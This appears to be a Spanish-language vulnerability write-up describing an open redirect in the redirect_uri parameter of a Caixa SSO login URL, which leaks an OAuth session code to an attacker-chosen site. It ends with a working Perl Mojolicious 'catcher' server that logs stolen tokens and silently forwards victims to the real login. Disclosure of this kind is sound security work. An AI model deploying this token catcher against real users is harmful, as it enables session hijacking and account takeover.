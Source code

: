 La URL:

[http://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=http://acessoseguro.sso.caixa.gov.br]()

El último parámetro de la URL presenta una posible vulnerabilidad de Open Redirect: `&redirect_uri=`. El valor insertado en este parámetro indica a qué URL será redirigido el usuario al finalizar la actividad en cuestión, en este caso, el inicio de sesión.

Para validar esta posibilidad, se alteró el valor del parámetro `&redirect_uri=` en la URL original al link de la página principal de Google. Finalmente, al llenar las credenciales válidas e iniciar sesión, se obtuvo el siguiente resultado:

<iframe width="100%" height="523" src="https://www.youtube.com/embed/d6EXPMQPcZw" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>

-

Como se muestra, la aplicación contiene una vulnerabilidad de Open Redirect. Sin embargo, hay otro detalle: durante el redireccionamiento, se envió un parámetro adicional, como se puede observar en la URL:

[https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7](https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7)

Tras analizar el parámetro `?code=` y la solicitud original, se pudo validar que el valor de este parámetro corresponde a un Token de Sesión[2].

Con esta conclusión, se hizo evidente que esta vulnerabilidad posee una alta criticidad, ya que el usuario podría ser víctima de un ataque en el que se redirija hacia una URL maliciosa controlada por un atacante, quien captura el Token de Sesión. Al hacerlo, el atacante obtiene acceso a la cuenta del usuario, violando la confidencialidad e integridad de sus datos.

---

### Prueba de concepto

Para demostrar la posibilidad de la filtración y captura del token, se utilizó el siguiente código en Perl:

```perl
#!/usr/bin/env perl
# perl catcher.pl daemon -m production -l http://\*:8080

use 5.030;
use strict;
use warnings;
use Mojolicious::Lite -signatures;

get "/" => sub ($catcher) {
    $catcher -> res -> headers -> header("Access-Control-Allow-Origin" => "*");

    my $code = $catcher -> param("code");

    open (my $logs, ">>", "catcher.logs");
    print $logs "[+] - New Session Token -> '$code' has been catch.\n";
    close ($logs);

    return ($catcher -> render (
        text => "
            <script>window.location='https://acessoseguro.sso.caixa.gov.br/portal/login/?code=$code'</script>
        "
    ));

};

app -> start();
```